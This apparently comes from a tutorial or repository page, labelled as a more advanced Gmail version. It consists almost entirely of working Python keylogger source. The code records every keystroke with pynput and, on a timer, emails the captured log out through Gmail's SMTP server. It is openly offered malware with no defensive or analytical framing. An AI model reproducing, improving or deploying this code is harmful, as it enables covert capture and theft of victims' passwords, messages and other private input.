### Code 3 more advanced with Gmail 
First, ensure you have the `pynput` library installed:
```sh
pip install pynput
```

```python
from pynput import keyboard
import threading
import smtplib


class Keylogger:
    def __init__(self, time, email, password):
        self.log = "[+] Keylogger has started"
        self.time_interval = time
        self.email = email
        self.password = password

    def append_log(self, string):
        self.log = self.log + string

    def key_pressed(self, key):
        try:
            key_special = str(key.char)
        except AttributeError:
            if key == key.space:
                key_special = " "
            else:
                key_special = " " + str(key) + " "
        self.append_log(key_special)

    def mail_sender(self, email, password, message):
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    def mail(self):
        self.mail_sender(self.email, self.password, "\n\n" + self.log)
        self.log = ""
        timer = threading.Timer(self.time_interval, self.mail)
        timer.start()

    def launch(self):
        listener = keyboard.Listener(on_press = self.key_pressed)
        with listener:
            self.mail()
            listener.join()

```
